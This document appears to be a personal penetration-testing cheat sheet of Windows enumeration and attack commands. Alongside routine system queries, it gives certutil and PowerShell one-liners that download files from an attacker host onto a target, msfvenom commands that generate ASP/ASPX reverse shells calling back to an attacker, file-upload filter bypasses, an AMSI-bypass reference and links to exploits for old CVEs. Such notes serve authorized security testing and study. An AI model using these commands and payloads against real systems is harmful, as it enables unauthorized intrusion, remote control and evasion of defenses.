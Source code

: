 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```

check running services

```
Get-Service | where {$_.Status -eq "Running"}
```

find specific files

```cmd
REM command prompt
dir /s C:\Folder\*.txt
```

```powershell
# powershell
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Filter "*.txt"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf"
```

[registry query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)

```cmd
reg query HKEY_LOCAL_MACHINE\Software /f Python
```

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)

```
tasklist /v
```

Task Scheduler(taskschd.msc)

```
schtasks /query /fo LIST /v
```

Powershell [Get-ScheduledTask Script]

convert to command line, replace `\r\n` to empty string and `"` to `\"`

```cmd
powershell -command "$ScheduledTasks = Get-ScheduledTask | Where-Object {$_.TaskPath -notlike \"\Microsoft*\" -and $_.TaskName -notlike \"*TEST*\"};foreach ($item in $ScheduledTasks) {    [string]$Name       = ($item.TaskName);    [string]$Action     = ($item.Actions | Select-Object -ExpandProperty Execute);    [datetime]$Start    = ($item.Triggers | Select-Object -ExpandProperty StartBoundary);    [string]$Repetition = ($item.Triggers.Repetition | Select-Object -ExpandProperty interval);    [string]$Duration   = ($item.Triggers.Repetition | Select-Object -ExpandProperty duration);    $splat = @{    'Name'       = $Name;    'Action'     = $Action;    'Start'      = $Start;    'Repetition' = $Repetition;    'Duration'   = $Duration;    };    $obj = New-Object -TypeName PSObject -property $splat;    $obj | Write-Output;};"
```

Powershell 2.0 (Windows 7 & Windows Server 2008 R2)

```powershell
schtasks /query /fo csv -v | ConvertFrom-Csv | ? {$_.TaskName -notlike "\Microsoft\Windows*" -and $_.TaskName -notlike "\Microsoft\Office\*" -and $_.TaskName -notlike "\Microsoft\XblGameSave\*" -and $_.TaskName -notlike "TaskName"}
```

Windows Library Files

```
https://wikileaks.org/ciav7p1/cms/page_13763381.html
https://blog.f-secure.com/abusing-windows-library-files-for-persistence/
```

#### Old Vulnerability

MS08_067 [tool 1](https://github.com/andyacer/ms08_067) [tool 2](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```shell
# check os version
nmap -p <target ports> --script /usr/share/nmap/scripts/smb-os-discovery <target ip>
```

CVE-2019-0708

```
https://github.com/robertdavidgraham/rdpscan
```

CVE-2017-7269

Microsoft Windows Server 2003 IIS 6.0 WebDAV

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

CVE-2014-6271

```
https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
```

#### Resources

```
https://ss64.com/
https://lolbas-project.github.io/#
```